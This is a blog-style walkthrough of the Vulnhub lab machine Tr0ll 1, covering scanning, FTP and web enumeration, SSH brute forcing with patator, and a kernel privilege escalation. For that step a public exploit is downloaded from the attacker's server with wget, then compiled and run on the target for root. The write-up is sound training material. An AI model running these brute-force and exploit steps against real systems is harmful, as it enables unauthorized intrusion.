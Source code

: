 ```yaml
---
title: Tr0ll 1 Vulnhub Walkthrough
date: 2019-09-09 18:01:38 GMT+2
categories: [Vulnhub]
tags: [vulnhub, boot2root, ethical hacking]     # TAG names should always be lowercase
image: /assets/img/posts/troll1/troll1.png
---
```


Machine Info:
* Difficulty: Beginner
* Goal: Gain root access and get Proof.txt from the /root directory

## Network Scanning
### Netdiscover
As we do every time, we run netdiscover to determine the target's IP address.

```bash
netdiscover -i eth1
```

![netdiscover](/assets/img/posts/troll1/1.png)

### Nmap
Then we run nmap to discover open ports and running services.

```bash
nmap -p- -A 192.168.56.115
```

![nmap](/assets/img/posts/troll1/2.png)

## Enumeration
### FTP Enumeration
As a result of nmap, we have discovered the following open ports and services:  
* FTP:21
* SSH:22
* HTTP:80  

So, we start enumerating FTP service. We noticed that from the results of nmap, we can login to FTP anonymously. After we logged in as anonymous witn blank password, we found a pcap file named "lol.pcap". We get that file on our local machine to take a look over it then we quit from FTP.

```bash
ftp 192.168.56.115
ls
get lol.pcap
quit
```

![FTP](/assets/img/posts/troll1/3.png)

We know that from the file extension (pcap), it is a recorded packet capture file. Therefore we use wireshark or tcpdump to analyze that packet and see if there is any important information. We look to the file content for a while and then we figured out that there is a retrieved file named "secret_stuff.txt" that file contains a web directory named "sup3rs3cr3tdirlol".

```bash
wireshark lol.pcap
or
tcpdump -nnttttAr lol.pcap | less -Sr
```

![wireshark](/assets/img/posts/troll1/4.1.png)
![tcpdump](/assets/img/posts/troll1/4.2.png)

### HTTP Enumeration
We go to that directory to see what is there. We found a file named "roflmao" and we downloaded it.

```
http://192.168.56.115/sup3rs3cr3tdirlol/
```

![sup3rs3cr3tdirlol](/assets/img/posts/troll1/5.png)

That file is an executable file, so we change its permissions to execute it. After we execute that file, it prints "Find address 0x0856BF to proceed". We expect that address may be an another web directory, so we go to the website and place that address in the URL.

```bash
file roflmao
chmod +x roflmao
./roflmao
```

![tcpdump](/assets/img/posts/troll1/6.png)

And what we expected happened, we got a webpage contains a couple of folders. We open the first folder "good_luck/" and we found a list of words that may help us to brute force SSH, so let's keep that in mind.

```
http://192.168.56.115/0x0856BF/
http://192.168.56.115/0x0856BF/good_luck/which_one_lol.txt
```

![0x0856BF](/assets/img/posts/troll1/7.png)
![which_one_lol](/assets/img/posts/troll1/8.png)

Then we open the second folder "this_folder_contains_the-password/" and we found a text file named "Pass.txt" that contains a word of "Good_job_:)".

```
http://192.168.56.115/0x0856BF/this_folder_contains_the_password/
http://192.168.56.115/0x0856BF/this_folder_contains_the_password/Pass.txt
```

![this_folder_contains_the_password](/assets/img/posts/troll1/9.1.png)
![Pass](/assets/img/posts/troll1/9.2.png)

## Exploitation
Now we have a list of words and a password, so let's assume that list is a list of users. We copy and paste all of the list words to a file named "users.txt" so we can use it for SSH brute forcing. We first used hydra for SSH brute forcing but we have no luck to success, so we try to use patator for SSH brute forcing. Also, we tried use almost all possible forms of word "Good_job_:)" as a password but it did not work. Then afterwhile we noticed that it says "this_folder_contains_the-password/" not "this_folder_contains_the_file_that_contains_the-password/" which may be means that the name of text file "Pass.txt" is the password itself. Then we run the following patator command and we successfully found the right username which is "overflow".

```bash
patator ssh_login host=192.168.56.115 user=FILE0 0=/root/vulnhub/troll1/users.txt password=Pass.txt
```

![patator](/assets/img/posts/troll1/10.png)

Then we login to ssh and finally we are in as a normal user. Now, we need to escalate our privileges. Therefore, we use the following commands to know the kernel version and then search for any available exploits.

```bash
ssh overflow@192.168.56.115
id
uname -a
lsb_release -a
```

![ssh_login](/assets/img/posts/troll1/11.png)

## Privilege Escalation
We use searchsploit or google to find any available privilege escalation exploits that related to the target's kernel version "3.13.0" and we found that exploit (37292)[https://www.exploit-db.com/exploits/37292]. We download it and transfere it to the target machine through python temporary web server on port 8080.

```bash
# On kali terminal
searchsploit linux kernel 3.13.0 privilege escalation
searchsploit -m linux/local/37292.c
python -m SimpleHTTPServer 8080
```
```bash
# On target terminal
cd /tmp
wget http://192.168.56.157:8080/37292.c
```

![37292](/assets/img/posts/troll1/12.png)

Then after we get the exploit on the target machine, we compile it and execute it. And eventually we got a root shell and the flag "proof.txt".

```bash
ls
gcc 37292.c -o 37292
./37292
id
cd /root
ls
cat proof.txt
```

![root](/assets/img/posts/troll1/13.png)
